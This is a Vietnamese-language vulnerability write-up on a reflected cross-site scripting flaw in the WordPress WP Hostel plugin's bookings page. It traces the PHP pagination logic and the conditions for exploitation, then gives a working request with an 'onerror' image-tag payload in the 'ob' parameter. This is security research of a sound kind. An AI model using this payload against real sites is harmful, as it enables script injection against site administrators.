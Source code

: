 **Phân tích biến `$page_limit`**

`$page_limit` được đặt cố định là `20`, dùng kết hợp với `$offset` để phân trang:

```php
// define limit (as it's paginated)				
$page_limit = 20;

// LIMIT offset, 20
$limit_sql = empty($_GET['export']) ? $wpdb->prepare("LIMIT %d, %d", $offset, $page_limit) : ''; 
```

Khi đó SQL trả về tối đa **20 bản ghi**, bắt đầu từ vị trí `$offset`.

**Áp dụng vào mệnh đề if**:

Trong view, đoạn code XSS payload chỉ hiển thị khi:

* `if($offset > 0)` => tức là phải có offset từ **1 trở lên**.
* Muốn `offset > 0` có ý nghĩa, cơ sở dữ liệu phải có ít nhất **2 booking**. Nếu chỉ có 1 booking thì sau khi bỏ qua 1 dòng (offset=1), không còn dữ liệu nào để hiển thị, nên payload cũng không render ra.

👉 Do đó, để khai thác thành công, cần có tối thiểu **2 booking** trong database.

---

Cuối cùng các kết quả được chứa trong các biến sẽ được hiển thị ra views thông qua hàm `include()`

```php
if(@file_exists(get_stylesheet_directory().'/wphostel/bookings.html.php')) include get_stylesheet_directory().'/wphostel/bookings.html.php';
else include(WPHOSTEL_PATH."/views/bookings.html.php");	
```

`WPHOSTEL_PATH` có thể là hằng global được sử dụng sau khi file **PHP** chứa nó được load, Để biết được chính xác, ta tìm kiếm với từ khóa `WPHOSTEL_PATH`.

![search path](search_path.png "Đường dẫn tuyệt đối tới thư mục plugin")

---

## Exploit

**Request với XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload thực tế**:

```html
"><img src=x onerror=alert(document.domain)>
```

* Đóng thẻ `<a>` bằng ký tự `">`.
* Chèn thêm thẻ `<img>` có thuộc tính `onerror` để **kích hoạt JavaScript**.
* Dùng `alert(document.domain)` thay cho `alert(1)` như một thói quen, nhằm chứng minh rõ ràng khả năng đọc thông tin từ DOM. Điều này cũng giúp tránh trường hợp [Sandbox Domain](https://bughunters.google.com/learn/invalid-reports/web-platform/xss/6619189462433792/xss-in-sandbox-domains) khiến cho tác động của `payload` bị xem nhẹ hoặc không có.
